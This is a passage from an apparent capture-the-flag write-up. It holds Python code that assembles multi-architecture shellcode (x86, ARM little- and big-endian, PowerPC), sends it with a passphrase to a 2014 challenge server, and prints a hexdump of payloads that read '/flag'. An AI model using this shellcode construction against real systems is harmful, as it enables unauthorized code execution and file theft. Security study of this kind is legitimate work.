     def get_branch():
        # x86 jump
        r = '\x73\x12\x00\x00'
        # PPC branch
        r += '\x48\x00\x01\x70'
        # ARMEL branch
        r += '\x9a\x00\x00\x40'
        # ARMEB branch
        r += '\x13\x00\x00\xea'
        return r

    def assemble():
        shellcode = ['X']*1024
        pc = 0
        branch = get_branch()
        shellcode = dd(shellcode, branch)
        pc = len(branch)
        shellcode = dd(shellcode, get_x86_shellcode(), seek=pc)
        pc = ARMEL_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        print "pc is now", pc
        shellcode = dd(shellcode, get_armel_shellcode(), seek=pc)
        pc = ARMEB_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        shellcode = dd(shellcode, get_armeb_shellcode(), seek=pc)
        pc = PPC_START_OFFSET
        shellcode += 'X' * (pc - len(shellcode))
        shellcode = dd(shellcode, get_ppc_shellcode(), seek=pc)
        open('shellcode-assembled','w').write(''.join(shellcode))
        return shellcode

    def test_live():
        con = Sock("polyglot_9d64fa98df6ee55e1a5baf0a170d3367.2014.shallweplayaga.me 30000")
        con.send_line('w0rk_tHaT_tAlEnTeD_t0nGu3')
        sys.stdout.write(con.read_one()+'\n\n')
        time.sleep(0.5)
        con.send(''.join(assemble()))
        while 1:
            sys.stdout.write(con.read_one(15))

    test_live()

The resulting assembled shellcode looks like: 

    00000000  73 12 00 00 48 00 01 70  9a 00 00 40 13 00 00 ea  |s...H..p...@....|
    00000010  90 90 90 90 31 c0 31 db  31 c9 31 d2 eb 32 5b b0  |....1.1.1.1..2[.|
    00000020  05 31 c9 cd 80 89 c6 eb  06 b0 01 31 db cd 80 89  |.1.........1....|
    00000030  f3 b0 03 83 ec 01 8d 0c  24 b2 01 cd 80 31 db 39  |........$....1.9|
    00000040  c3 74 e6 b0 04 b3 01 b2  01 cd 80 83 c4 01 eb df  |.t..............|
    00000050  e8 c9 ff ff ff 2f 66 6c  61 67 00 00 58 58 58 58  |...../flag..XXXX|
    00000060  40 00 8f e2 05 70 a0 e3  00 10 a0 e3 00 00 00 ef  |@....p..........|
    00000070  00 00 a0 e1 03 70 a0 e3  16 3a a0 e3 03 10 a0 e1  |.....p...:......|
    00000080  01 2a a0 e3 00 00 00 ef  00 20 a0 e1 04 70 a0 e3  |.*....... ...p..|
    00000090  01 00 a0 e3 03 10 a0 e1  00 00 00 ef 01 70 a0 e3  |.............p..|
    000000a0  00 00 a0 e3 00 00 00 ef  2f 66 6c 61 67 00 00 00  |......../flag...|
    000000b0  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    *
    00000110  e2 8f 00 40 e3 a0 70 05  e3 a0 10 00 ef 00 00 00  |...@..p.........|
    00000120  e1 a0 00 00 e3 a0 70 03  e3 a0 3a 16 e1 a0 10 03  |......p...:.....|